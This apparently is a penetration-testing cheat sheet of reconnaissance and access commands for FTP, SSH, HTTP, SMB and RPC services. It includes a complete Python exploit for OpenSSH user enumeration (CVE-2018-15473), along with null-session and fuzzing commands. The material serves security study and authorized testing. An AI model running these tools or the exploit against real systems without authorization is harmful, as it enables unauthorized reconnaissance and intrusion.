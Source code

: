 # Network Services

## FTP

#### Anonymous login

{% code overflow="wrap" %}
```bash
ftp anonymous@10.10.10.10  # No password needed
```
{% endcode %}

#### Auto login

```bash
sshpass -p 'pass' ftp user@10.10.10.10
```

#### Browser URL

{% code overflow="wrap" %}
```bash
ftp://user:pass@10.10.10.10
```
{% endcode %}

#### SSL

{% code overflow="wrap" %}
```bash
lftp 10.10.10.10 -e "set ssl:verify-certificate no; set ftp:ssl-force true"
```
{% endcode %}

#### Download all files

{% code overflow="wrap" %}
```bash
wget -r --user='user' --password='pass' ftp://10.10.10.10
```
{% endcode %}

## SSH

#### Default credentials

Check for default credentials depending on the vendor:

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials)

#### Auto login

```
sshpass -p 'pass' ssh user@10.10.10.10
```

#### Private key login

{% code overflow="wrap" %}
```bash
ssh -i id_rsa user@10.10.10.10
```
{% endcode %}

#### Generate RSA keys

{% code overflow="wrap" %}
```bash
ssh-keygen -t rsa -f id_rsa
```
{% endcode %}

#### User enumeration - OpenSSH <7.7

Any version of OpenSSH up to 7.7 is vulnerable to user enumeration (CVE-2018-15473) if not patched. To exploit this vulnerability, we can use the following script:

<details>

<summary>ssh_user_enum.py</summary>

{% code overflow="wrap" fullWidth="true" %}
```python
#!/usr/bin/env python2

import argparse
import logging
import paramiko
import socket
import sys
from colorama import init, Fore
from threading import Thread, current_thread, enumerate as enumerate_threads

class SSHUserChecker:
    def __init__(self, target, port=22):
        self.target = target
        self.port = port

        # Remove paramiko logging
        logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

        # Assign functions to respective handlers
        self._old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = self._service_accept
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = self._invalid_username

    def _service_accept(self, *args, **kwargs):
        paramiko.message.Message.add_boolean = self._add_boolean
        return self._old_service_accept(*args, **kwargs)

    def _add_boolean(self, *args, **kwargs):
        pass

    def _invalid_username(self, *args, **kwargs):
        raise InvalidUsername()

    def check_user(self, username):
        sock = socket.socket()
        sock.connect((self.target, self.port))
        transport = paramiko.transport.Transport(sock)

        try:
            transport.start_client()
        except paramiko.ssh_exception.SSHException:
            print (Fore.RED + '\n[!] Failed to negotiate SSH transport for user:' + username)
            return False

        try:
            transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
        except InvalidUsername:
            return False
        except paramiko.ssh_exception.AuthenticationException:
            return True
        return False

class InvalidUsername(Exception):
    pass

def check_user_wrapper(user_checker, username, valid_users, invalid_users):
    if user_checker.check_user(username):
        valid_users.append(username)
    else:
        invalid_users.append(username)

def main():
    parser = argparse.ArgumentParser(description='SSH User Enumeration')
    parser.add_argument('-u', '--username', help="Username to check for validity.")
    parser.add_argument('-w', '--wordlist', help="Wordlist file containing usernames to check.")
    parser.add_argument('-p', '--port', type=int, default=22, help="Set port of SSH service")
    parser.add_argument('target', help="IP address of the target system")

    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(1)

    args = parser.parse_args()

    user_checker = SSHUserChecker(args.target, args.port)
    valid_users = []
    invalid_users = []

    if args.wordlist:
        with open(args.wordlist, 'r') as f:
            for line in f:
                username = line.strip()
                t = Thread(target=check_user_wrapper, args=(user_checker, username, valid_users, invalid_users))
                t.start()
    else:
        if not args.username:
            parser.error("[!] You must specify either a username (-u) or a wordlist (-w).")
        else:
            t = Thread(target=check_user_wrapper, args=(user_checker, args.username, valid_users, invalid_users))
            t.start()

    # Esperar a que todos los hilos terminen
    for t in enumerate_threads():
        if t != current_thread():
            t.join()

    if args.wordlist:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid users:")
            for user in valid_users:
                print(Fore.GREEN + "{}".format(user))
        else:
            print(Fore.RED + "\n[-] No valid users found.")
    else:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid user: {}".format(args.username))
        else:
            print(Fore.RED + "\n[-] Invalid user: {}".format(args.username))

if __name__ == "__main__":
    main()
```
{% endcode %}

</details>

## HTTP/HTTPS

#### Web Technologies

{% code overflow="wrap" %}
```bash
whatweb http://10.10.10.10
```
{% endcode %}

{% embed url="https://www.wappalyzer.com/apps/" %}
I also recommend using this browser extension.
{% endembed %}

#### File and Directory Enumeration

{% code overflow="wrap" %}
```bash
nmap -p80,443 --script http-enum 10.10.10.10
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.10/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wfuzz -w wordlist.txt http://10.10.10.10/FUZZ
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Good option for BurpSuite requests
ffuf -request request.txt -w wordlist.txt http://10.10.10.10/
```
{% endcode %}

#### Subdomain Enumeration

{% code overflow="wrap" %}
```
gobuster vhost -u http://target.com/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```
wfuzz -H 'Host: FUZZ.target.com' -w wordlist.txt http://target.com/
```
{% endcode %}

#### User input

{% content-ref url="web-vulnerabilities/" %}
[web-vulnerabilities](web-vulnerabilities/)
{% endcontent-ref %}

## SMB

System enumeration with `enum4linux`

```bash
enum4linux -a [-u 'user' -p 'pass'] 10.10.10.10
```

#### Shares Enumeration

{% tabs %}
{% tab title="smbclient" %}
{% code overflow="wrap" %}
```bash
# null session
smbclient -N -L //10.10.10.10
# authenticated
smbclient -U 'user[%pass]' -L //10.10.10.10
# conect to a share
smbclient [-U 'user[%pass]'] //10.10.10.10/share
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code overflow="wrap" %}
```bash
# null session
smbmap -H 10.10.10.10
# authenticated
smbmap -u "user" -p "pass" -H 10.10.10.10
# recursive/non-recursive listing
smbmap [-u "user" -p "pass"] -R/-r share -H 10.10.10.10
```
{% endcode %}
{% endtab %}

{% tab title="netexec" %}
{% code overflow="wrap" %}
```bash
# null session
nxc smb 10.10.10.10 -u '' -p '' --shares
# authenticated
nxc smb 10.10.10.10 -u 'user' -p 'pass' --shares
# List share
nxc smb 10.10.10.10 [-u 'user' -p 'pass'] --share share
```
{% endcode %}
{% endtab %}

{% tab title="nmap" %}
{% code overflow="wrap" %}
```bash
nmap -p 139,445 --script "smb-enum-shares" 10.10.10.10
```
{% endcode %}
{% endtab %}
{% endtabs %}

## RPC

#### Automated Enumeration

```bash
rpcdump.py 10.10.10.10
```

#### Manual Enumeration

```bash
# null session
rpcclient -U "" -N 10.10.10.10
# authenticated
rpcclient -U 'user%pass' -N 10.10.10.10
# commands
rpcclient -U '[user%pass]' -N 10.10.10.10 -c 'command'
```

